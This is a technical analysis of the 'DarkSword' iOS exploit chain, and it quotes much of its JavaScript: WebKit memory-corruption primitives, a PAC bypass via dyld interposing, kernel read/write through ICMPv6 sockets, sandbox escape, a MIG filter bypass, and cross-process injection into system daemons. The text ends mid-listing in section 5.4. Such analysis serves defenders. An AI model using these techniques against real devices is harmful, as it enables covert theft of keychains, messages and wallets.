

# DarkSword iOS Exploit Chain -- Deep Technical Analysis

## Table of Contents

1. [Executive Summary](#1-executive-summary)
2. [Exploit Chain Architecture](#2-exploit-chain-architecture)
3. [Stage 1: WebContent Process RCE](#3-stage-1-webcontent-process-rce)
   - 3.1 [Initial Vulnerability and Memory Corruption](#31-initial-vulnerability-and-memory-corruption)
   - 3.2 [addrof / fakeobj Primitives](#32-addrof--fakeobj-primitives)
   - 3.3 [Arbitrary Read/Write Engine](#33-arbitrary-readwrite-engine)
   - 3.4 [PAC Bypass via dyld Interposing](#34-pac-bypass-via-dyld-interposing)
   - 3.5 [dlopen Inside WebContent (JIT Cage / W^X Bypass)](#35-dlopen-inside-webcontent-jit-cage--wx-bypass)
   - 3.6 [JOP Thread and Arbitrary Function Calling](#36-jop-thread-and-arbitrary-function-calling)
4. [Stage 2: Kernel Exploit](#4-stage-2-kernel-exploit)
   - 4.1 [Kernel Read/Write via ICMPv6 Sockets](#41-kernel-readwrite-via-icmpv6-sockets)
   - 4.2 [KASLR Defeat and Self-Task Discovery](#42-kaslr-defeat-and-self-task-discovery)
   - 4.3 [Mach Port and IPC Space Manipulation](#43-mach-port-and-ipc-space-manipulation)
5. [Stage 3: Post-Exploitation](#5-stage-3-post-exploitation)
   - 5.1 [Sandbox Escape](#51-sandbox-escape)
   - 5.2 [MIG Filter Bypass (iOS 18.4+)](#52-mig-filter-bypass-ios-184)
   - 5.3 [Cross-Process Code Execution via Mach Exceptions](#53-cross-process-code-execution-via-mach-exceptions)
   - 5.4 [JavaScript Injection into System Processes](#54-javascript-injection-into-system-processes)
   - 5.5 [Cross-Process Memory Access via VM Object Manipulation](#55-cross-process-memory-access-via-vm-object-manipulation)
6. [Mitigation Bypass Deep-Dives](#6-mitigation-bypass-deep-dives)
   - 6.1 [PAC (Pointer Authentication Code)](#61-pac-pointer-authentication-code)
   - 6.2 [ASLR (Address Space Layout Randomization)](#62-aslr-address-space-layout-randomization)
   - 6.3 [KASLR (Kernel ASLR)](#63-kaslr-kernel-aslr)
   - 6.4 [App Sandbox](#64-app-sandbox)
   - 6.5 [W^X and JIT Hardening](#65-wx-and-jit-hardening)
   - 6.6 [MIG Filtering (iOS 18.4+)](#66-mig-filtering-ios-184)
   - 6.7 [GC Safety and Heap Integrity](#67-gc-safety-and-heap-integrity)
   - 6.8 [Zone Allocator Protections](#68-zone-allocator-protections)
7. [Indicators of Compromise](#7-indicators-of-compromise)
8. [References](#8-references)

---

## 1. Executive Summary

DarkSword is a **full-chain iOS exploit** attributed to Russian-linked threat actors targeting Ukrainian users. It was analyzed and reconstructed from webpack-bundled source code by the security community after being discovered in the wild.

The chain achieves **remote code execution from a webpage**, escalates to **kernel read/write**, **escapes the sandbox**, and performs **extensive data exfiltration** -- all without user interaction beyond visiting a malicious URL.

The exploit targets **iOS 17.x through 18.x** across a wide range of iPhone models (iPhone XS through iPhone 17), with per-device/per-build offset tables covering dozens of hardware and firmware combinations.

### Kill Chain Summary

| Stage | Technique | Mitigations Bypassed |
|---|---|---|
| WebContent RCE | JSC type confusion -> addrof/fakeobj -> R/W | ASLR, W^X, PAC, JIT Cage |
| Kernel R/W | ICMPv6 socket setsockopt/getsockopt | KASLR, Zone protections |
| Sandbox Escape | Extension data corruption + launchd token issuance | App Sandbox |
| MIG Filter Bypass | Kernel lock manipulation + stack return value overwrite | MIG duplicate filtering (iOS 18.4+) |
| Cross-Process Injection | EXC_GUARD exception hijacking + NSInvocation chaining | Process isolation, PAC on thread states |
| Data Exfiltration | JS injection into SpringBoard, securityd, wifid, etc. | Keychain protection, file access controls |

### Targeted Data

- SMS, call history, contacts, voicemail
- Keychain credentials (all items)
- WiFi passwords (via SecItemCopyMatching in securityd/wifid)
- iCloud Drive documents
- Safari browsing data and cookies
- Photos, health data, location history
- Crypto wallet data (Coinbase, Binance, MetaMask, Phantom, Telegram)
- Installed application list and container data

---

## 2. Exploit Chain Architecture



---

## 3. Stage 1: WebContent Process RCE

### 3.1 Initial Vulnerability and Memory Corruption

The initial WebContent exploit uses a JSC (JavaScriptCore) vulnerability to achieve memory corruption within the renderer process. The RCE worker (`rce_worker.js`) operates inside a Web Worker and receives exploit parameters (device model, offsets, ASLR slide) from the main page via `postMessage`.

The exploit constructs two arrays -- one "unboxed" (storing raw doubles) and one "boxed" (storing object pointers) -- and abuses a type confusion to make their butterflies overlap:

```javascript
// rce_worker.js
const no_cow = 1.1;
const unboxed_arr = [no_cow];
const boxed_arr = [{}];
```

The overlap allows treating an object pointer as a double (leaking its address) or treating a crafted double as an object pointer (creating a fake object).

### 3.2 addrof / fakeobj Primitives

Once the butterfly overlap is established, the primitives are straightforward:

```javascript
// rce_worker.js:285-292
p.addrof = function addrof(o) {
    boxed_arr[0] = o;
    return BigInt.fromDouble(unboxed_arr[0]);
}
p.fakeobj = function fakeobj(addr) {
    unboxed_arr[0] = addr.asDouble();
    return boxed_arr[0];
}
```

The `addrof` primitive stores an object into the boxed array, then reads the same memory through the unboxed array as a raw float64, recovering the NaN-boxed pointer. The `fakeobj` primitive does the reverse: write a crafted double, read it back as an object reference.

### 3.3 Arbitrary Read/Write Engine

The exploit escalates from addrof/fakeobj to full arbitrary read/write by constructing a **fake JSObject** whose inline property storage overlaps with a controlled region:

```javascript
// rce_worker.js:296-357
// Allocate objects with predictable 0x20-byte spacing
for (let i = 0; i < 500; ++i) {
    let o = { p1: 1.1, p2: 2.2 };
    if (p.addrof(o) - prev_addr === 0x20n) {
        scribble_element = o;
        break;
    }
    scribbles.push(o);
    prev_addr = p.addrof(o);
}

// Create a fake object that overlaps with scribble_element's properties
let change_scribble_holder = {
    p1: p.fakeobj(0x108240700000000n),  // fake StructureID + indexing type
    p2: scribble_element
};
let change_scribble = p.fakeobj(p.addrof(change_scribble_holder) + 0x10n);
```

The `write64` primitive works by modifying the fake object's butterfly pointer (`change_scribble[1]`) to point at `addr + 0x10`, then writing to `scribble_element.p3`. The `read64` primitive uses a `BigUint64Array` whose internal buffer pointer is redirected to the target address by corrupting the array's backing store metadata via the same fake-object trick, then reading through a JS string's charCode accessors.

**GC Disabling**: Immediately after gaining R/W, the exploit disables garbage collection to prevent heap corruption during exploitation:

```javascript
// rce_worker.js:359-368
const vm = p.read64(p.read64(p.addrof(globalThis).add(0x10n)).add(0x38n));
const heap = vm.add(0xc0n);
const isSafeToCollect = heap.add(0x241n);
p.write8(isSafeToCollect, 0n);
```

This sets `JSC::Heap::m_isSafeToCollect` to false, preventing any GC cycles from running while the exploit manipulates internal JSC data structures.

### 3.4 PAC Bypass via dyld Interposing

This is one of the most sophisticated aspects of the exploit. On ARM64e (A12+), all function pointers are PAC-signed, meaning the exploit cannot simply overwrite a function pointer and call it. DarKSward solves this by **hijacking dyld's interposing mechanism** to gain access to a PAC signing oracle.

**Step 1: Triggering Framework Loading**

The exploit forces the WebContent process to load additional frameworks (TextToSpeech, PerfPowerServicesReader) by corrupting `CFBundle` metadata and triggering the load via `ImageBitmap.close()`:

```javascript
// rce_worker.js:443-488
// Corrupt NSBundle state to force re-load
p.write64(TextToSpeech_NSBundle + 8n, 0x40008n);
p.write8(TextToSpeech_CFBundle + 0x34n, 0n);
p.write64(offsets.AVFAudio__AVLoadSpeechSynthesisImplementation_onceToken, 0n);

// Redirect CFBundle's bundlePath to a different framework
p.write64(offsets.CFNetwork__gConstantCFStringValueTable + 0x10n, offsets.libARI_cstring);
p.write64(TextToSpeech_CFBundle + 0x68n, offsets.CFNetwork__gConstantCFStringValueTable);
```

**Step 2: Hijacking dyld InterposeTupleAll**

During `dlopen`, dyld processes an interposing tuple table (`RuntimeState.InterposeTupleAll`). The exploit corrupts this table by modifying the `Loader` metadata on a suspended dlopen worker's stack to point at the `InterposeTupleAll` buffer/size fields:

```javascript
// rce_worker.js:507-568
// Find the dlopen return address on the worker thread's stack
const search_result = p.efficient_search(stack_top, stack_bottom, needle);
const loader = search_result + 0x78n;

// Point the Loader's interpose metadata at our controlled buffer
p.write64(loader, p_InterposeTupleAll_buffer - 0x10n);
p.write64(loader + 8n, metadata_data_ptr + 0x10n);
```

**Step 3: Interposing Critical Functions**

The exploit interposes several CMPhoto symbols with security-critical functions, including `dlopen`, `dlsym`, and critically **`dyld::signPointer`**:

```javascript
// rce_worker.js:624-635
interpose(offsets.CMPhoto__CMPhotoCompressionSessionAddAuxiliaryImageFromDictionaryRepresentation,
          offsets.libdyld__dlopen);
interpose(offsets.CMPhoto__CMPhotoCompressionSessionAddCustomMetadata,
          offsets.libdyld__dlsym);
interpose(offsets.CMPhoto__CMPhotoCompressionSessionAddExif,
          offsets.dyld__signPointer);
```

**Step 4: PAC Signing Oracle**

Once the interposing is active, loading a second framework causes dyld to process the interpose table, and the interposed CMPhoto function pointers are now **PAC-signed by dyld** to point to the replacement functions. The exploit reads these signed pointers back:

```javascript
// rce_worker.js:656-667
const paciza_dlopen = p.read64(
    offsets.ImageIO__gFunc_CMPhotoCompressionSessionAddAuxiliaryImageFromDictionaryRepresentation);
const paciza_dlsym = p.read64(
    offsets.ImageIO__gFunc_CMPhotoCompressionSessionAddCustomMetadata);
const paciza_signPointer = p.read64(
    offsets.ImageIO__gFunc_CMPhotoCompressionSessionAddExif);
```

With `paciza_signPointer` (a PAC-signed pointer to `dyld::signPointer`), the exploit can now **sign arbitrary pointers**:

```javascript
// rce_worker.js:731-738
function slow_pacia(ptr, ctx) {
    signPointer_self[0] = 0x80010000_00000000n | ctx >> 48n << 32n;
    return slow_fcall_1(paciza_signPointer, signPointer_self_addr, ctx, ptr);
}
function slow_pacib(ptr, ctx) {
    signPointer_self[0] = 0x80030000_00000000n | ctx >> 48n << 32n;
    return slow_fcall_1(paciza_signPointer, signPointer_self_addr, ctx, ptr);
}
```

This is the core PAC bypass: by abusing dyld's own signing infrastructure, the exploit creates a signing oracle that can produce valid PAC signatures for both IA (instruction A-key) and IB (instruction B-key) contexts.

### 3.5 dlopen Inside WebContent (JIT Cage / W^X Bypass)

The WebContent process is heavily sandboxed and normally cannot call `dlopen`. The exploit bypasses this through the interposing mechanism described above, which gives it PAC-signed pointers to `dlopen` and `dlsym`.

Before triggering the load, the exploit also bypasses **JIT allowlist** checks:

```javascript
// rce_worker.js:378-379
p.write64(offsets.JavaScriptCore__jitAllowList_once, 0xffffffffffffffffn);
p.write64(offsets.JavaScriptCore__jitAllowList + 8n, 1n);
```

And bypasses **atexit mutex** deadlocks that would occur during framework initialization:

```javascript
// rce_worker.js:484
p.write64(offsets.libsystem_c__atexit_mutex + 0x20n, 0x102n);
```

The exploit also disarms a `dispatch_source` block that would interfere with the loading process:

```javascript
// rce_worker.js:430-442
const defaultLoader = p.read64(offsets.AXCoreUtilities__DefaultLoader);
const dispatchBlock = p.read64(dispatchSomething + 0x28n);
p.write64(dispatchBlock + 0x20n, paciza_nullfunc); // replace invoke with no-op
```

### 3.6 JOP Thread and Arbitrary Function Calling

With PAC signing and dlopen/dlsym available, the exploit spawns a **dedicated JOP (Jump-Oriented Programming) thread** for stable, arbitrary function calling:

```javascript
// rce_worker.js:777-782
const jop_thread = new BigUint64Array(0x20 / 8);
const jop_thread_data_ptr = jop_thread.data();
x0_u64[8 / 8] = paciza_gadget_loop_3;
await slow_fcall_2(signed_pthread_create, jop_thread_data_ptr, 0n,
                   paciza_gadget_loop_3, x0);
```

The JOP thread uses a **gadget loop** architecture. Three gadget types work together:

1. **Loop gadgets** (`gadget_loop_1/2/3`): Spin on a memory location waiting for a magic value to change, then load registers from controlled memory.
2. **Control gadgets** (`gadget_control_1/2/3`): Load function pointer and arguments from controlled arrays, then branch to the target.
3. **Register-set gadget** (`gadget_set_all_registers`): Loads x0-x7 from a stack buffer, enabling function calls with up to 8 arguments.

All gadget pointers are PAC-signed using `slow_pacia` (IA key, context 0) and `slow_pacib` (IB key, stack-based context) before use. The link register (LR) values stored on the JOP thread's stack must be PACIB-signed with the stack address as the context:

```javascript
// rce_worker.js:805-812
const pacib_gadget_loop_1_0x80020 = await slow_pacib(gadget_loop_1, stack + 0x80020n);
const pacib_gadget_loop_1_0x800c0 = await slow_pacib(gadget_loop_1, stack + 0x800c0n);
const pacib_gadget_loop_2_0x80010 = await slow_pacib(gadget_loop_2, stack + 0x80010n);
const pacib_gadget_loop_2_0x800b0 = await slow_pacib(gadget_loop_2, stack + 0x800b0n);
```

The final `fcall()` function orchestrates calls through the JOP loop:

```javascript
// rce_worker.js:853-886
function fcall(pc, ...args) {
    if (!cache.has(pc)) {
        cache.set(pc, pacia(pc, 0n));  // auto-sign new function pointers
    }
    const signed_pc = cache.get(pc);

    // Phase 1: Activate control gadget
    stack_u64[0x80008 / 8] = pacib_gadget_loop_2_0x80010;
    x19_u64[0 / 8] = paciza_gadget_control_2;
    while (x19_f64[8 / 8] === MAGIC);  // wait for JOP thread to consume

    // Phase 2: Set function pointer
    x20_u64[0x20 / 8] = signed_pc;
    x19_u64[0 / 8] = paciza_gadget_loop_1;
    x20_u64[0x10 / 8] = paciza_gadget_control_3;
    while (x19_f64[0x20 / 8] === MAGIC);

    // Phase 3: Set arguments (x0-x7)
    for (let i = 0; i < args.length && i < 8; ++i) {
        stack_u64[0x80098 / 8 - i] = args[i];
    }
    x19_u64[0 / 8] = paciza_gadget_set_all_registers;
    while (x19_f64[8 / 8] === MAGIC);

    // Phase 4: Execute and read return value
    x19_u64[0 / 8] = paciza_gadget_loop_1;
    x20_u64[0x10 / 8] = paciza_gadget_control_3_4;
    while (x19_f64[0x20 / 8] === MAGIC);

    return x19_u64[0x20 / 8];  // x0 return value
}
```

The synchronization between the main JS thread and the JOP thread uses a **spin-wait on shared memory**: the main thread writes a `MAGIC` sentinel value (the double `123.456`) to a shared `Float64Array`, and polls until the JOP thread overwrites it, indicating the operation completed.

---

## 4. Stage 2: Kernel Exploit

### 4.1 Kernel Read/Write via ICMPv6 Sockets

The kernel exploit stage establishes arbitrary kernel memory read/write using a pair of ICMPv6 raw sockets. The primitive leverages the `ICMP6_FILTER` socket option (`setsockopt`/`getsockopt` with `IPPROTO_ICMPV6 = 58`) to read and write 32 bytes at a time at arbitrary kernel addresses.

From `DriverNewThread.js`:

```javascript
// DriverNewThread.js - kread32Bytes
#kread32Bytes(kaddr, buffer, len) {
    const tmpBuff = Native.mem + 0x1000n;

    // Set target kernel address via control socket
    let buff = new BigUint64Array(4);
    buff[0] = kaddr;
    Native.write(tmpBuff, buff.buffer);
    Native.callSymbol("setsockopt", this.#controlSocket,
        IPPROTO_ICMPV6, ICMP6_FILTER, tmpBuff, EARLY_KRW_LENGTH);

    // Read 32 bytes from that address via RW socket
    buff[0] = BigInt(len);
    Native.write(tmpBuff, buff.buffer);
    Native.callSymbol("getsockopt", this.#rwSocket,
        IPPROTO_ICMPV6, ICMP6_FILTER, buffer, tmpBuff);
}
```

The exploit uses two sockets:
- **Control socket**: `setsockopt` writes the target kernel address into the socket's filter structure.
- **RW socket**: `getsockopt` reads from, or `setsockopt` writes to, the kernel address set by the control socket.

This primitive reads/writes in 32-byte (`0x20`) chunks. For sub-32-byte writes, the exploit first reads the full 32-byte chunk, patches the desired bytes in userspace, then writes the full chunk back:

```javascript
// DriverNewThread.js:228-236
if (write_size != EARLY_KRW_LENGTH) {
    // Partial write: read-modify-write
    if (!this.#kread32Bytes(kwrite_dst_addr, this.#tmpWriteMem, EARLY_KRW_LENGTH))
        return false;
    Native.callSymbol("memcpy", this.#tmpWriteMem, kwrite_src_addr, write_size);
    kwrite_src_addr = this.#tmpWriteMem;
}
```

### 4.2 KASLR Defeat and Self-Task Discovery

With kernel R/W established, the exploit defeats KASLR through two mechanisms:

1. **Kernel base**: Obtained from the initial exploit stage via `mpd_kernel_base()` -- a function provided by the WebContent exploit that calculates the kernel slide.

2. **Self-task discovery**: Starting from the known `kernel_task` address (kernel base + offset), the exploit traverses the **doubly-linked task list** to find its own process:

```javascript
// DriverNewThread.js - #findSelfTaskKaddr
#findSelfTaskKaddr(direction) {
    let kernelTaskAddr = this.#kernelBase + this.#offsets.kernelTask;
    let kernelTaskVal = Chain.read64(kernelTaskAddr);
    let ourPid = Native.callSymbol("getpid");

    let nextTask = direction
        ? Chain.read64(kernelTaskVal + this.#offsets.nextTask)
        : Chain.read64(kernelTaskVal + this.#offsets.prevTask);

    while (nextTask != 0 && nextTask != kernelTaskVal) {
        let procROAddr = Chain.read64(nextTask + this.#offsets.procRO);
        let procVal = Chain.read64(procROAddr);
        if (procVal && this.strip(procVal) > 0xffffffd000000000n) {
            let pid = Chain.read32(procVal + this.#offsets.pid);
            if (pid == ourPid)
                return nextTask;
            // Continue traversal
        }
    }
}
```

The traversal follows XNU's `task->bsd_info` (via `proc_ro`) to find the BSD process structure, reads the PID, and compares it against `getpid()`. The exploit tries both forward and backward traversal for robustness.

### 4.3 Mach Port and IPC Space Manipulation

Once the self-task address is known, the exploit can resolve Mach port names to their kernel objects by walking the IPC space table:

```javascript
// Task.js
static #getSpaceTable(taskAddr) {
    let space = Chain.read64(taskAddr + Chain.offsets().ipcSpace);
    let spaceTable = Chain.read64(space + Chain.offsets().spaceTable);
    spaceTable = Chain.strip(spaceTable);
    return this.#kallocArrayDecodeAddr(BigInt(spaceTable));
}

static #getPortObject(spaceTable, port) {
    let portIndex = this.#mach_port_index(port);     // port >> 8
    let portEntry = spaceTable + (portIndex * 0x18n); // 24-byte entries
    let portObject = Chain.read64(portEntry + Chain.offsets().entryObject);
    return Chain.strip(portObject);
}
```

The `kallocArrayDecodeAddr` function handles XNU's kalloc array pointer encoding, which encodes the zone type in the high bits:

```javascript
static #kallocArrayDecodeAddr(ptr) {
    let zone_mask = BigInt(1) << BigInt(this.KALLOC_ARRAY_TYPE_SHIFT);
    if (ptr & zone_mask) {
        ptr &= ~0x1fn;
    } else {
        ptr &= ~Utils.PAGE_MASK;
        ptr |= zone_mask;
    }
    return ptr;
}
```

The `PortRightInserter` class enables inserting Mach send rights into the current process's port namespace by manipulating kernel port structures directly, including adjusting reference counts and the `ip_sorights` field to avoid kernel panics.

---

## 5. Stage 3: Post-Exploitation

### 5.1 Sandbox Escape

DarKSward uses two complementary sandbox escape techniques:

#### Technique 1: Kernel Sandbox Extension Corruption

The `Sandbox.applySandboxEscape()` method walks the kernel credential and MAC policy structures to find the process's sandbox profile, then corrupts its extension data to remove path restrictions:

```javascript
// Sandbox.js:357-416
// Walk: proc -> proc_ro -> ucred -> cr_label -> sb_slot -> ext_set -> ext_table
let ourProcAddr = Task.getTaskProc(ourTaskAddr);
let credRefAddr = Chain.read64(ourProcAddr + 0x18n);     // proc_ro + 0x18 = ucred ref
credRefAddr = credRefAddr + 0x28n;
let credAddr = Chain.read64(credRefAddr);
let labelAddr = Chain.read64(credAddr + 0x78n);           // mac_label
let sandboxAddr = Chain.read64(labelAddr + 0x8n + 1n * BigInt(Utils.UINT64_SIZE));
let ext_setAddr = Chain.read64(sandboxAddr + 0x10n);
let ext_tableAddr = ext_setAddr + 0x0n;

// Walk to the last extension header in the hash chain
let ext_hdrAddr = Chain.read64(ext_tableAddr + hash * BigInt(Utils.UINT64_SIZE));
for (;;) {
    let nextAddr = Chain.read64(ext_hdrAddr);
    if (nextAddr == 0n) break;
    ext_hdrAddr = nextAddr;
}

// Find the extension and zero its data, removing the path constraint
let ext_lstAddr = ext_hdrAddr + 0x8n;
let extAddr = Chain.read64(ext_lstAddr);
let dataAddr = Chain.read64(extAddr + 0x40n);
Chain.write8(dataAddr, 0);         // Zero first byte of path
Chain.write64(extAddr + 0x48n, 0n); // Zero data length
```

This effectively converts a path-specific sandbox extension into an unconstrained one.

#### Technique 2: Launchd Token Issuance

The more powerful approach establishes a `RemoteCall` connection to `launchd` (PID 1) and uses its privileges to issue sandbox extension tokens:

```javascript
// Sandbox.js:130-152
static getTokenForPath(path, consume=false) {
    let memRemote = this.#launchdTask.mem();
    this.#launchdTask.writeStr(memRemote, path);
    let sandboxExtensionEntry = memRemote + 0x100n;
    this.#launchdTask.writeStr(sandboxExtensionEntry, "com.apple.app-sandbox.read-write");
    let tokenRemote = this.#launchdTask.call(100,
        "sandbox_extension_issue_file", sandboxExtensionEntry, memRemote, 0, 0);
    // ...
    if (consume)
        Native.callSymbol("sandbox_extension_consume", token);
    return token;
}
```

The exploit generates tokens for over **100 sensitive file system paths** including:
- `/private/var/Keychains/` (keychain databases)
- `/private/var/keybags/` (encryption key bags)
- `/private/var/mobile/Library/SMS/` (messages)
- `/private/var/mobile/Library/AddressBook/` (contacts)
- `/private/var/mobile/Library/Safari/` (browsing data)
- `/private/var/mobile/Media/DCIM/` (photos)
- `/private/var/mobile/Library/Health/` (health data)
- And many more

These tokens are then distributed to all injected payloads via `Sandbox.applyTokensForRemoteTask()`.

### 5.2 MIG Filter Bypass (iOS 18.4+)

Starting with iOS 18.4, Apple introduced MIG message filtering that blocks certain Mach IPC operations used by the exploit's cross-process injection. DarKSward bypasses this through direct kernel memory manipulation in a dedicated bypass thread.

The bypass thread (`MigFilterBypassThread.js`) runs in its own JSC context with independent kernel R/W:

#### GC Disarming

The bypass thread first disarms the JSC garbage collector to prevent interference:

```javascript
// MigFilterBypassThread.js:16-24
function disarm_gc() {
    let vm = uread64(uread64(addrof(globalThis) + 0x10n) + 0x38n);
    let heap = vm + 0xc0n;
    let m_threadGroup = uread64(heap + 0x198n);
    let threads = uread64(m_threadGroup);
    uwrite64(threads + 0x20n, 0x0n);  // Zero the thread list
}
```

#### Sandbox Evaluation Lock Manipulation

The core bypass works by manipulating XNU's `_duplicate_lock` (a `lck_rw_t` reader-writer lock) used during sandbox message evaluation:

```javascript
// MigFilterBypassThread.js:30-67
function lockSandboxLock() {
    const lockAddr = Chain.getKernelBase() + migLock;
    const sbxMessageAddr = Chain.getKernelBase() + migSbxMsg;

    let lockBuff = Chain.readBuff(lockAddr, 16);
    let lockBuff32 = new Uint32Array(lockBuff);
    let lockData = lockBuff32[2];
    lockData |= 0x410000;   // Set interlock + can_sleep bits
    Chain.write32(lockAddr + 0x8n, lockData);
    Chain.write64(sbxMessageAddr, 0n);  // Clear duplicate message buffer
}

function unlockSandboxLock() {
    const lockAddr = Chain.getKernelBase() + migLock;
    Chain.write64(sbxMessageAddr, 0n);  // Clear before unlock

    let lockData = lockBuff32[2];
    lockData &= ~0x10000;   // Clear interlock bit
    Chain.write32(lockAddr + 0x8n, lockData);
}
```

#### Return Value Overwrite

While the lock is held, the bypass thread monitors target threads for MIG syscalls by examining their kernel stacks. When it detects `_sb_evaluate_internal()` on a thread's call stack (identified by a known return address / LR value), it overwrites the function's return value on the stack with `0` (success/allow):

```javascript
// MigFilterBypassThread.js:82-107
function findReturnValueOffs(addr) {
    let pageAddr = Task.trunc_page(addr);
    let startAddr = pageAddr + 0x3000n;
    let buff = Chain.readBuff(startAddr, READ_SIZE);
    let buff64 = new BigUint64Array(buff);
    let expectedLR = Chain.getKernelBase() + migKernelStackLR;

    for (let i=0, j=0; i<READ_SIZE; i+=8, j++) {
        let val = kstrip(buff64[j]);
        if (val === expectedLR) {
            // Return value is at LR - 40 bytes on the stack
            return startAddr + BigInt(i - 40);
        }
    }
    return false;
}

function disableFilterOnThread(threadAddr) {
    let kstack = Thread.getStack(threadAddr);
    let kernelSP = Chain.read64(kstack + kernelSPOffset);

    let offs = findReturnValueOffs(kernelSP);
    if (!offs) return false;

    Chain.write64(offs, 0n);  // Overwrite return value to 0 (allow)
    return true;
}
```

The bypass thread operates in a continuous loop: lock sandbox -> scan for MIG syscalls -> overwrite return values -> unlock -> yield -> repeat.

### 5.3 Cross-Process Code Execution via Mach Exceptions

`RemoteCall.js` implements a sophisticated mechanism for executing arbitrary functions in remote processes using Mach exception handling. This is the backbone of all cross-process operations.

#### Thread Hijacking via EXC_GUARD

The exploit first creates Mach exception ports, then injects `EXC_GUARD` exceptions into threads of the target process:

```javascript
// RemoteCall.js - constructor
// Disable crash-on-exception for the target task
Task.disableExcGuardKill(this.#taskAddr);

// Encode a guard exception code targeting a specific port
let guardCode = 0n;
guardCode = this.#EXC_GUARD_ENCODE_TYPE(guardCode, GUARD_TYPE_MACH_PORT);
guardCode = this.#EXC_GUARD_ENCODE_FLAVOR(guardCode, kGUARD_EXC_INVALID_RIGHT);
guardCode = this.#EXC_GUARD_ENCODE_TARGET(guardCode, 0xf503n);
```

#### Setting Exception Ports on Remote Threads

Setting exception ports on remote threads requires bypassing PAC on thread states. The exploit creates a local thread that calls `thread_set_exception_ports` on a "dummy" thread, then uses a **TRO (Thread Read-Only) pointer swap** technique to make the exception port apply to the target process:

```javascript
// RemoteCall.js - #setExceptionPortOnThread
// Create local thread calling thread_set_exception_ports
Native.callSymbol("pthread_create_suspended_np", pthreadPtr, 0,
    thread_set_exception_ports_addr, 0);

// Read the thread's kernel stack to find its TRO pointer
let dataBuff = Chain.readBuff(Task.trunc_page(kernelSP) + 0x3000n, 0x1000);
// Search for the dummy thread's TRO pointer in the stack
let found = Utils.memmem(dataBuff, buffer);

// Replace the TRO with the target thread's TRO
if (Thread.getTask(currThread) == this.#taskAddr) {
    let tro = Thread.getTro(currThread);
    Chain.write64(Task.trunc_page(kernelSP) + BigInt(found), tro);
}
```

#### PAC-Signed Thread State Manipulation

When redirecting execution in the target process, the exploit must produce PAC-signed PC and LR values for the thread state. The `#signState` method handles this:

```javascript
// RemoteCall.js:308-337
#signState(SigningThread, state, pc, lr) {
    // Extract per-thread diversifier from opaque_flags
    let diver = BigInt(state.opaque_flags) &
        __DARWIN_ARM_THREAD_STATE64_USER_DIVERSIFIER_MASK; // 0xff000000n

    // Compute discriminators for PC and LR
    let discPC = Utils.ptrauth_blend_discriminator(
        BigInt(diver), Utils.ptrauth_string_discriminator_special("pc"));
    let discLR = Utils.ptrauth_blend_discriminator(
        BigInt(diver), Utils.ptrauth_string_discriminator_special("lr"));

    if (pc) {
        // Clear kernel-signed flag, replace with user-signed value
        state.opaque_flags &= ~(__DARWIN_ARM_THREAD_STATE64_FLAGS_KERNEL_SIGNED_PC);
        state.opaque_pc = PAC.remotePAC(SigningThread, pc, discPC);
    }
    if (lr) {
        state.opaque_flags &= ~(
            __DARWIN_ARM_THREAD_STATE64_FLAGS_KERNEL_SIGNED_LR |
            __DARWIN_ARM_THREAD_STATE64_FLAGS_IB_SIGNED_LR);
        state.opaque_lr = PAC.remotePAC(SigningThread, lr, discLR);
    }
}
```

The discriminators use specific constants:
- PC discriminator: `0x7481` (blended with the thread's diversifier mask)
- LR discriminator: `0x77d3` (blended with the thread's diversifier mask)

#### Controlled Execution Loop

The exploit uses intentionally invalid ("trojan") PC/LR values (e.g., `0x101`, `0x201`, `0x301`, `0x401`) that are PAC-signed for the target thread. When the thread resumes with these values, it immediately faults, generating an exception that the exploit catches. This creates a "call-and-return" loop:

1. Wait for exception (thread crashed on invalid PC)
2. Set new state: PC = target function, LR = invalid address, x0-x7 = arguments
3. Reply to exception (thread resumes, executes target function)
4. Wait for next exception (thread crashed on invalid LR after function returned)
5. Read return value from x0 in the exception message
6. Corrupt PC again for the next call

```javascript
// RemoteCall.js - #doRemoteCallStable
#doRemoteCallStable(timeout, name, x0, x1, x2, x3, x4, x5, x6, x7) {
    let pcAddr = Native.dlsym(name);

    // Wait for pending exception
    Exception.waitException(this.#secondExceptionPort, excBuffer, timeout, false);
    let exc = new ExceptionMessageStruct(excRes);

    // Set arguments and sign PC/LR
    let newState = exc.threadState;
    newState.registers.set(0, x0);
    // ... set x1-x7
    newState = this.#signState(this.#trojanThreadAddr, newState, pcAddr, fakeLRTrojan);
    Exception.replyWithState(exc, newState, false);

    // Wait for return exception
    Exception.waitException(this.#secondExceptionPort, excBuffer, timeout, false);
    let retValue = exc.threadState.registers.get(0);  // x0 = return value

    // Corrupt PC for next call
    Exception.replyWithState(exc, newState, false);

    return retValue;
}
```

### 5.4 JavaScript Injection into System Processes

`InjectJS.js` injects JavaScript code into arbitrary system processes by creating a JavaScriptCore context within the target process and executing code in it.

#### Finding the __invoking__ Function

The exploit locates the `__invoking__` function in CoreFoundation by scanning backward from `_CF_forwarding_prep_0` for a known ARM64 instruction pattern:

```javascript
// InjectJS.js:243-287
#findInvoking() {
    let startAddr = Native.dlsym("_CF_forwarding_prep_0");
    startAddr = startAddr & 0x7fffffffffn;
    startAddr -= 0x4000n;

    // Pattern: ldr x7,[x0,#0x38]; ldr x6,[x0,#0x30]; ldr x5,[x0,#0x28]; ldr x4,[x0,#0x20]
    const pattern = new Uint8Array([
        0x67, 0x1D, 0x40, 0xF9, 0x66, 0x19, 0x40, 0xF9,
